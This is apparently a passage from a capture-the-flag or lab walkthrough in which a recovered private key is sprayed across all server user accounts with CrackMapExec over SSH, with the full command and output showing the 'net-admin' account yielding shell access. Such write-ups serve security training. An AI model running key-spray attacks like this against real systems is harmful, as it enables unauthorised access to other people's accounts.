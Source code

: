
#### Identifying the Next Attack

**What do we know**:  
- There was a request to audit the SSH Keys; however, the task was never completed.
- Barbara Harris had access to critical systems.

<details><summary>Key Audit Information /home/sftp/uploads/.temp_keys/README.md</summary></details>

- Barbara Harris does not have a profile on the server.

<details><summary>List Of Users With a Profile</summary></details>

---

**What do we have**:  
- Barbara's private key.

---

**What can we do**:  
- Conduct a SSH Key Spray Attack

#### Crafting the Key Spray Attack

- **Step 1:** Create a user list to spray against:
  ```bash
  ls /home > users.txt
  ```

<details><summary>List of Users</summary></details>

- **Step 2:** Ensure Barbara's id_rsa has the correct permissions:
  ```bash
  chmod 600 id_rsa_barbara
  ```

---

#### Execute the SSH Key Spray

Use CrackMapExec (CME) to conduct the Key Spray:

```bash
crackmapexec ssh $ip -u users.txt --key-file id_rsa_barbara -p '' --continue-on-success
```

<details><summary>CME Syntax</summary></details>

<pre>
SSH         10.10.247.86    22     10.10.247.86     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10
SSH         10.10.247.86    22     10.10.247.86     [-] d_wilson: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] e_johnson: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] j_davis: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] j_moore: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] j_smith: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] m_brown: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [+] net-admin: (keyfile: id_rsa_barbara)  - shell access!
SSH         10.10.247.86    22     10.10.247.86     [-] s_miller: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] sftp: Authentication failed.
SSH         10.10.247.86    22     10.10.247.86     [-] sys-admin: Authentication failed.
</pre>
---
